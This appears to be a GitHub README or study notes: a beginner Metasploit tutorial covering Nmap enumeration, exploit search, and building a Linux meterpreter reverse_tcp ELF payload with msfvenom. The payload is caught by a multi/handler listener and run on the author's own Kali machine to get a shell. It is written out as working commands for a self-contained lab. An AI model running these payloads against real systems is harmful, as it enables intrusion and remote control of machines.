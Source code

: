 The first thing you do in terms of enumeration is using tools like NMap to find out what ports are open and what OS the system is using and what vulnerabilities we can find in order to exploit the system. Once we find the OS or the browser whose exploit is available in msfconsole we go ahead and start the process. 
The things we need to look for when we first find how we are going to exploit the system are the following things: 

$`RHOST -- This is the victim machine` 

$`LHOST -- This is the machine that we are attacking from, in our case the kali Linux` 

$`RPORT -- The target port` 

When we do options after we use any of the exploit, then if we do options we can see the parameters that are required. We must give the machine the parameters that say "required" 

The following steps should be followed in order to exploit a system. 

1. Search for the type of exploit that you will need. The examples for the way to look for exploits is as follows: 

$` search cve:2009 type:exploit platform:linux ` In this search line, we are looking for a CVE for 2009, the type we are looking for is exploit and the platform that we are looking the exploit for is Linux

$`Exploit -- gets you into a system` 

$`Payload -- lets system connect back to you`

When a payload is executed on a system, the listener is waiting. The listener being multi/handler. 

First we will do msfvenom, here we are exploiting our own machine so we do this outside of msfconsole in regular command prompt. 
In order to find the payloads to hack our own kali machine, we will be looking for the linux meterpreter. 

$`msfvenom --list payloads | grep meterpreter` The grep filter searches a file for a particular pattern of characters, and displays all lines that contain that pattern.
reverse_tcp allows the remote computer to connect to you. 

$`msfvenom --list format` This is the different types of formats that you can use. Since we are hacking a Linux machine, we will be using a elf file, which is the executable linux file. 

Creating a payload 

$`msfvenom --payload linux/x64/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 --format elf -o file1`

In the above statement, we are creating a payload for our own kali machine, we will be using the reverse_tcp payload, lhost being the host machine that we are using. We will be using the listenining port 4444 and our format will be elf since we are using a linux machine and elf is a executable linux file $`-o` is the output and we give the filename file 1 where the output will be saved to. 

Now we open another tab and go inside msfconsole, once we get the $`msf6` we type in $`use exploit/multi/handler` and once we press enter, we wil get the $`msf6 exploit(multi/handler)`We can know if we are inside the exploit if it turns red on the command line. We type info now and it will give us information about it. Once we get that, we type in $`show payloads` and grab the same payload the $`linux/x64/meterpreter/reverse_tcp`. We set payload and paste the same payload. We type options again. We can see that in the Payload options.We need to set lhost, which is required. After that just hit $`run`. This has started the listening process. 

We go back to the msfvenom tab, we execute the payload. In order to do so, we need to give it more permission, so we do the $`chmod +x file1`. the chmod command gives the file all the authority it needs to read, write and execute. 
$`./file1` Enter. 
Now we go back to the msfconsole. The meterpreter shell has opened. It has connected to the Kali Machine. If we type $`getuid` we can see that we are inside the kali machine. we can also use $`sysinfo` we can see different things in there. 






